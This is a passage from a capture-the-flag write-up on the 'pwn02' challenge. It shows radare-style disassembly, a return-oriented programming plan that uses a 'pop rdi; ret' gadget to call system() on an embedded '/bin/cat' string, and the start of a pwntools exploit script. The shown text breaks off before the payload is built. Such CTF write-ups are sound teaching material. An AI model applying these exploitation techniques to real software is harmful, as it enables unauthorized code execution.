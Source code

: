 ```asm
│           0x00401271      b800000000     mov eax, 0
│           0x00401276      b928000000     mov ecx, 0x28               ; '(' ; 40
│           0x0040127b      4889d7         mov rdi, rdx
│           0x0040127e      f348ab         rep stosq qword [rdi], rax
│           0x00401281      48c785c0f9ff.  mov qword [var_640h], str._bin_uname__a ; 0x40205b ; "/bin/uname -a"
│           0x0040128c      488d9580f8ff.  lea rdx, [var_780h]
│           0x00401293      b800000000     mov eax, 0
│           0x00401298      b928000000     mov ecx, 0x28               ; '(' ; 40
│           0x0040129d      4889d7         mov rdi, rdx
│           0x004012a0      f348ab         rep stosq qword [rdi], rax
│           0x004012a3      48c78580f8ff.  mov qword [var_780h], str._bin_cat_hvfstjehcy.txt ; 0x402069 ; "/bin/cat hvfstjehcy.txt"
│           0x004012ae      90             nop
│           0x004012af      c9             leave
└           0x004012b0      c3             ret
```

This one does quite a lot of random stuff, basically just loading random .data addresses. 
This however does show a VERY interesting thing which is that a string containing the data "/bin/cat hvfstjehcy.txt" is
stored inside of the binary at address 0x402069. This is great news because we also have a system() call stored
inside of the program's .text section

Which means we can use ROP (Return Oriented Programming) in order to use a "pop rdi; ret" gadget to put 0x402069 inside
of rdi and jump to the system call to run `system("/bin/cat hvfstjehcy.txt");` and print the flag.

Using **ROPgadget** I found `0x000000000040146b : pop rdi ; ret`

Alright now that we have an exploit plan, let's get to work !

Exploiting the Binary
=

As a little reminder, we do have to answer the quiz before reaching the vulnerable code ! 
So let's automate that using pwntools.

```py
#!/usr/bin/env python3

from pwn import *

context.binary = elf = ELF('./src/pwn02')
context.arch = 'amd64'
context.endian = 'little'
context.log_level = 'error'

if args.REMOTE:
    io = remote("pwn02.ctf.teamquark.com", 65302)
else:
    io = elf.process()

io.recvline("?\n")
io.sendline(b'elliot') # Send first answer

io.recvline("?\n")
io.sendline(b'Darlene Alderson') # Send second answer

io.interactive()
io.close()
```

